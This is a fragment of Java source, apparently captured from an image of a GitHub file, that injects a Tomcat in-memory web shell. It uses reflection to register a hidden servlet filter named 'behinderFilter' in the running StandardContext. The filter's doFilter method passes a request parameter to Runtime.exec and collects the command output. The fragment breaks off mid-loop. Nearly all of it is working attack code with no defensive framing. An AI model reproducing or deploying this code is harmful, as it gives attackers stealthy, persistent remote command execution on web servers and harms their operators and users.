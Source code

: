 ```java

                standardContext = (StandardContext) field2.get(root);
            }

            Class<? extends StandardContext> aClass = null;
            try {
                aClass = (Class<? extends StandardContext>) standardContext.getClass().getSuperclass();
                aClass.getDeclaredField("filterConfigs");
            } catch (Exception e) {
                aClass = standardContext.getClass();
                aClass.getDeclaredField("filterConfigs");
            }
            Field Configs = aClass.getDeclaredField("filterConfigs");
            Configs.setAccessible(true);
            Map filterConfigs = (Map) Configs.get(standardContext);

            MFTomcatFromThread behinderFilter = new MFTomcatFromThread();

            FilterDef filterDef = new FilterDef();
            filterDef.setFilter(behinderFilter);
            filterDef.setFilterName(name);
            filterDef.setFilterClass(behinderFilter.getClass().getName());

            standardContext.addFilterDef(filterDef);

            FilterMap filterMap = new FilterMap();
            filterMap.addURLPattern(filterUrlPattern);
            filterMap.setFilterName(name);
            filterMap.setDispatcher(DispatcherType.REQUEST.name());

            standardContext.addFilterMapBefore(filterMap);

            Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
            constructor.setAccessible(true);
            ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

            filterConfigs.put(name, filterConfig);
        } catch (Exception ignored) {
        }
    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        System.out.println(
                "TomcatShellInject doFilter.....................................................................");
        String cmd;
        if ((cmd = servletRequest.getParameter(cmdParamName)) != null) {
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
```